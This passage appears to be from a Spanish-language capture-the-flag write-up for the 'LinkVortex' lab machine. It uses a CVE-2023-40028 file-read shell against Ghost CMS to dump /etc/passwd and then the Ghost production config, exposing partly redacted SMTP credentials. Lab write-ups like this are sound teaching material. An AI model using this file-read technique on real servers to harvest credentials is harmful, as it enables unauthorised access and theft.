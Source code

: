 ~~~bash
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
~~~
Primero se comprobó si se puede leer el /etc/passwd, ahora es cosa de pensar a que archivo importante puede tener credenciales de acceso, recordando, anteriormente se obtuvo un Dockerfile donde menciona una ruta de configuración, por lo que se procede a leer ello para ver que se puede encontrar.
~~~bash
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fi<SNIP>th"
        }
      }
    }
~~~